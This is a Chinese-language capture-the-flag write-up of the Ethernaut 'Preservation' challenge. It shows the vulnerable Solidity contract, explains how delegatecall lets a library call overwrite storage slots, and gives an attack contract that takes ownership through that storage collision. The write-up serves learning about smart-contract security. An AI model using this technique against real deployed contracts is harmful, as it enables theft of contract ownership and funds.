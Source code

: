     contract Preservation {

        // public library contracts 
        address public timeZone1Library;
        address public timeZone2Library;
        address public owner; 
        uint storedTime;
        // Sets the function signature for delegatecall
        bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

        constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
            timeZone1Library = _timeZone1LibraryAddress; 
            timeZone2Library = _timeZone2LibraryAddress; 
            owner = msg.sender;
        }
        
        // set the time for timezone 1
        function setFirstTime(uint _timeStamp) public {
            timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
        }

        // set the time for timezone 2
        function setSecondTime(uint _timeStamp) public {
            timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
        }
    }

    // Simple library contract to set the time
    contract LibraryContract {

        // stores a timestamp 
        uint storedTime;  

        function setTime(uint _time) public {
            storedTime = _time;
        }
    }
    ```

目标是拿到合约的所有权。但是从题目合约中看不到任何和更改 owner 有关的函数

根据提示，这个合约的漏洞在于通过 delegatecall 修改存储

通过 delegatecall 来调用另一个合约的函数并不会动用另一个合约的 storage，而是使用本地 storage。这就导致了在 setFirstTime 函数中调用 setTime 函数时更改 storedTime 实际上会更改处于 storage 中相同位置的 timeZone1Library。这样在下一次调用 setFirstTime 的时候就会调用另一个地址合约的 setTime 函数

因此可以部署一个攻击合约，其中实现 setTime 函数，里面将 owner 改为输入（注意要将攻击合约的内存布局搞的和 Preservation 合约相同），这样第一次 setFirstTime 使将 timeZone1Library 改为攻击合约的地址，第二次 setFirstTime 就可以调用到攻击合约的 setTime 函数，更改 owner。攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Exploit {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;             // 保证这前面有两个 address
    function setTime(uint _time) public {
        owner = address(_time);
    }
}
```
